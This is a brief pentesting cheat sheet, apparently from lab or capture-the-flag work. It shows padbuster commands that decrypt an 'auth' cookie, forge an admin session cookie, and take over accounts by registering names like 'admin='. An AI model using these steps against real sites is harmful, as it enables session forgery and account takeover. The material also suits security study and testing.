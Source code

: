 # Padding Oracle Attack

```http
GET /login.php HTTP1.1

auth: abcd123
```

### Example attack

```bash
padbuster http://<ip>/login.php <cookie> 8 -cookie "<auth>=<cookie>" -encoding 0
```

```bash
padbuster http://10.10.10.18/login.php abcd123 8 -cookie "auth=abcd123" -encoding 0
```

If you get "plain text: <credentials>" it's vulnerable

```bash
...
...
plain text: user=guest123
```
 
Attack admin cookie session
 
 ```bash
padbuster http://10.10.10.18/login.php abcd123 8 -cookie "auth=abcd123" -encoding 0 -plaintext "user=admin"
``
  
### 2th Example Attack
  
Register
input=Username
input:Password
  
Username: admin= or Username: admin==
